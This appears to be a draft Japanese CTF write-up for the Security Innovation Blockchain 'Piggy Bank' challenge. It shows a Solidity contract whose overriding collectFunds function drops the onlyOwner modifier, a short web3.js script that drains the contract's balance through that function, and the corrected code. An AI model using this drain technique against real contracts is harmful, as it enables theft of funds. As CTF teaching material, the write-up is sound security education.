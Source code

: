 +++
title = "[Security Innovation Blockchain CTF] Piggy Bank"
date = "2022-06-04"
tags = [
    "security",
    "ctf",
]
draft = true
+++

#### 概要

[Security Innovation Blockchain CTF](https://blockchain-ctf.securityinnovation.com/)

Security Innovationという企業が開催している、常設のCTFがあります。
今回は、[Piggy Bank](https://blockchain-ctf.securityinnovation.com/#/game/1)という問題を解きました。

#### 問題

貯金箱のようなアプリで、ownerのみが資金を出し入れできる実装になっています。

<img src=./dapps.png><br>

#### ソースコードを読む

`PiggyBank`というコントラクトが本体の実装になっており、`CharliesPiggyBank`はそれを継承したアプリです。

`CharliesPiggyBank`は、`collectFunds`という資金引き出し用の関数のみをoverrideしています。

`PiggyBank`には`onlyOwner`というmodifierが付いているものの、`CharliesPiggyBank`でoverrideされた関数では、modifierが付与されていません。

そのため、継承先のアプリでは`collectFunds`が誰でも呼び出し可能になっているようです。

```solidity
pragma solidity 0.4.24;

import "../CtfFramework.sol";
import "../../node_modules/openzeppelin-solidity/contracts/math/SafeMath.sol";

contract PiggyBank is CtfFramework{

    using SafeMath for uint256;

    uint256 public piggyBalance;
    string public name;
    address public owner;

    constructor(address _ctfLauncher, address _player, string _name) public payable
        CtfFramework(_ctfLauncher, _player)
    {
        name=_name;
        owner=msg.sender;
        piggyBalance=piggyBalance.add(msg.value);
    }

    function() external payable ctf{
        piggyBalance=piggyBalance.add(msg.value);
    }


    modifier onlyOwner(){
        require(msg.sender == owner, "Unauthorized: Not Owner");
        _;
    }

    function withdraw(uint256 amount) internal{
        piggyBalance = piggyBalance.sub(amount);
        msg.sender.transfer(amount);
    }

    function collectFunds(uint256 amount) public onlyOwner ctf{
        require(amount<=piggyBalance, "Insufficient Funds in Contract");
        withdraw(amount);
    }

}

contract CharliesPiggyBank is PiggyBank{

    uint256 public withdrawlCount;

    constructor(address _ctfLauncher, address _player) public payable
        PiggyBank(_ctfLauncher, _player, "Charlie") 
    {
        withdrawlCount = 0;
    }

    function collectFunds(uint256 amount) public ctf{
        require(amount<=piggyBalance, "Insufficient Funds in Contract");
        withdrawlCount = withdrawlCount.add(1);
        withdraw(amount);
    }
}
```

#### エクスプロイト

```solidity
const Web3 = require('web3')
const HDWalletProvider = require("@truffle/hdwallet-provider")
const fs = require('fs');

require('dotenv').config()

const web3 = new Web3(new HDWalletProvider(process.env.PRIVATE_KEY, process.env.PROVIDER_URL))
const abi = JSON.parse(fs.readFileSync('./src/abi.json'))
const contract = new web3.eth.Contract(abi, '0x27e03071617a155c88603ffc322262c47b209d03')
contract.methods.piggyBalance().call().then(wei => {
  const option = {from: '0xd7544D522B75347b48917649ebc5D334b3D43445'}
  contract.methods.collectFunds(wei).send(option)
})
```

#### どう実装されているべきか

modifierはoverrideされた関数には継承されないため、overrideした関数にも正しいmodifierを付与する必要があります。

```solidity
    function collectFunds(uint256 amount) public onlyOwner ctf{
        require(amount<=piggyBalance, "Insufficient Funds in Contract");
        withdrawlCount = withdrawlCount.add(1);
        withdraw(amount);
    }
```
